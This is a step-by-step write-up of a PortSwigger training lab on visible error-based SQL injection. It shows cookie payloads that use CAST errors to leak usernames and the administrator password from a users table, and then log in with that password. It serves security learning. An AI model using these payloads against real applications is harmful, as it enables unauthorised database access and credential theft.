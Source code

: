 # Visible error-based SQL injection

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

---

**NOTE:**
`SELECT CAST(1 AS int)--` => it will return `1`
`SELECT CAST((SELECT 1) AS int)--` => it will return `1`

step 1

go to proxy => http history => select any Request => then send to repeater

![screnshot](images/lab13_1.jpg)

step 2

add `'` just after TrackingId


```sql
rackingId=6zYV1IBjiO5WaU1p'
```

![screnshot](images/lab13_2.jpg)

step 3

add `''` just after TrackingId


```sql
rackingId=6zYV1IBjiO5WaU1p''
```

![screnshot](images/lab13_3.jpg)

step 4

add `' AND CAST((SELECT 1) AS int)--`

```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+CAST((SELECT+1)+AS+int)--
```

![screnshot](images/lab13_4.jpg)

step 5

add `' AND 1=CAST((SELECT 1) AS int)--`

```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+1)+AS+int)--
```

![screnshot](images/lab13_5.jpg)

step 6

add `' AND 1=CAST((SELECT username FROM users) AS int)--`

```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```

![screnshot](images/lab13_6.jpg)

step 7

remove trackingId and
add `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`

```sql
TrackingId%3d'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```

![screnshot](images/lab13_7.jpg)

step 8

add `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

```sql
TrackingId='+AND+1%3dCAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
```

![screnshot](images/lab13_8.jpg)

step 9

add `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

```sql
TrackingId='+AND+1%3dCAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```

![screnshot](images/lab13_9.jpg)

step 10

To solve the lab
login using `administrator` as username and password `6twusmy93tckofkybx0d`

![screnshot](images/lab13_10.jpg)
